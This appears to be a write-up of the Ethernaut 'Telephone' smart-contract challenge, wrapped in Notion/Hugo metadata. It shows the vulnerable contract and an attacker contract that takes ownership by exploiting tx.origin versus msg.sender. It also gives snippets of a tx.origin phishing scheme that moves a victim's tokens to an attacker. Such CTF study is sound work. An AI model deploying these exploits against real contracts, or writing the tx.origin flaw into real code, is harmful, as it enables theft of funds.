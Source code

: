 ```yaml
---
title: "Telephone"
date: "2024-01-16"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐"
prev: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
weight: 5
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/4"
next: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "8b2069f0-beb0-45b6-9400-a28665c1d56c"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "FPYQ"
        name: "⭐"
        color: "gray"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-01-16"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 5
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/4"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Telephone"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Telephone"
          href: null
  url: "https://www.notion.so/Telephone-8b2069f0beb045b69400a28665c1d56c"
  public_url: null
UPDATE_TIME: "2024-02-15T12:46:36.306Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


Claim ownership of the contract below to complete this level.


Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```


This is one is pretty straight forward, here is the attacker contract we can deploy:


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CoinFlipAttack {

   Telephone telephone;

  constructor(address target) {
    telephone = Telephone(target);
  }

  function attack() public {
    telephone.changeOwner(msg.sender);
  }
}
```


While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).


An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```text
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}

```

1. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```text
function () payable {
  token.transfer(attackerAddress, 10000);
}

```

1. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
